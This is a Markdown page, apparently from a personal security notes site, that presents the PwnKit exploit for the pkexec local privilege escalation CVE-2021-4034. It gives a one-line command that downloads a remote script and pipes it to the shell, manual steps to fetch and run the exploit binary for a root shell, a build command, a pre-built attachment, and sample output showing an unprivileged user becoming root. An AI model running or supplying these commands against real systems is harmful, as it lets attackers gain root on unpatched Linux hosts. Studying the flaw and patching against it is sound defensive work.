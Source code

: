 ```yaml
---
title : "CVE-2021-4034"
# pre : ' '
description : "Pkexec Local Privilege Escalation."
date : 2022-03-03T11:13:34+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-4034 - Pkexec Local Privilege Escalation

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```plain
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![example](images/oneliner.png)

### Manually

```plain
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![example](images/exploit.png)

### Patched

Running the exploit against patched versions will yield the following output.

![example](images/patched.png)

### Building Pwnkit

```plain
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

{{%attachments fa_icon_class="far fa-file-pdf" pattern="PwnKit"/%}}

## Examples

```plain
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit 
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## URL List

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
